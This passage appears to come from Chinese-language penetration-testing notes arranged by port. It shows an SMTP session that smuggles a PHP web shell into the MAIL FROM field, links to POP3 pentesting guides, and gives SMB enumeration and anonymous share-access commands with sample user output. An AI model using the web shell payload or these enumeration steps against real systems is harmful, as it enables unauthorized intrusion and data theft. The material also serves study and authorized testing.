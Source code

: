 ```bash
nc [ip] [port]  或者：telnet [ip] [port]  
1）HELO [user]    ---向服务器标识用户身份
2）MAIL FROM:"[user] <?php echo shell_exec($_GET['cmd']);?>"   ---MAIL FROM:发件人
3）RCPT TO:[reciver]   ---RCPT TO:收件人
4）DATA    ---开始编辑邮件内容
5）.       ---输入点代表编辑结束
```

[【渗透技巧】pop3协议渗透_pop3渗透_包大人在此的博客-CSDN博客](https://blog.csdn.net/b10d9/article/details/112155909)

[110-pop3 (flowus.cn)](https://flowus.cn/5fd1d77b-b5ed-4753-a765-90bdbf6bffb7)

[110,995 - Pentesting POP - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop)

## 139/445

smb服务

- nmap

```bash
nmap 10.10.10.4 -p 139,445 --script=smb-enum-shares
```

- 枚举 linux(smb) 用户，`enum4linux`

```bash
enum4linux 192.168.0.102
+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\sagar (Local User)
S-1-22-1-1001 Unix User\blackjax (Local User)
S-1-22-1-1002 Unix User\smb (Local User)
```

- `smbmap` 列出用户共享目录，不指定用户名时为匿名登录，是 anonymous 账号

```bash
smbmap -H 192.168.0.102 -u smb
smbclient -NL  192.168.2.6 
smbmap -H 10.10.10.4
```

- `smbclient` 访问目录， ls 、get（下载文件命令）、help（帮助命令）、exit（退出）

```bash
smbclient -N -L //10.10.10.4
```

```bash
smbclient //192.168.0.102/smb -U smb
smb: \>get main.txt
```

## 21

ftp 服务
